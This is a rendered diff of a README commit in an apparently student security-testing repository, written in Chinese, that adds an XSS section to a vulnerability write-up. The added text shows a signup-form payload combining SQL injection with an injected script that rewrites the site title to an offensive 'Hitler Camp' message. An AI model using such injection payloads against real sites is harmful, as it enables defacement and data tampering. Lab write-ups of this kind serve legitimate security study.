

Before and after one commit to shesl-meow/HackTest, a Markdown page: README.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -59,6 +59,8 @@ INSERT INTO users(Alias, email, password) VALUES('htxmb', (select concat(coalesc
 ![1542638111499](./sql-injection-1.png)
 
 ### XSS 漏洞
+
+#### 漏洞点 1
 
 在登录之后会显示一个查询页面，将查询的信息显示在底下的 Query Result 搜索栏中：
 
@@ -141,0 +174,14 @@ ele[0].childNodes[1].src = "https://upload.wikimedia.org/wikipedia/commons/e/e1/
+我们尝试以下的 `javascript` 代码，可以更改网页的标题内容：
+
+```javascript
+ele = document.getElementsByName("head-title");
+ele[0].innerHTML = "Welcome to <span class='brand'>Hitler Camp</span>";
+```
+
+因此可以通过以下的 `payload` 注册一个新账户：
+
+```mysql
+# _POST["signup-username"]=
+hacker<script>ele = document.getElementsByName("head-title"); ele[0].innerHTML= "Welcome to <span class=\'brand\'>Hitler Camp</span>";</script>', 'hacker@qq.com', '68e109f0f40ca72a15e05cc22786f8e6'); #
+```
+
````
Also changed, not shown: other parts of README.md (+35 -2 lines), register-msg.png (added), xss-1.png (deleted), xss-hack-1.png (added), xss-normal-1.png (added), 6 other files.
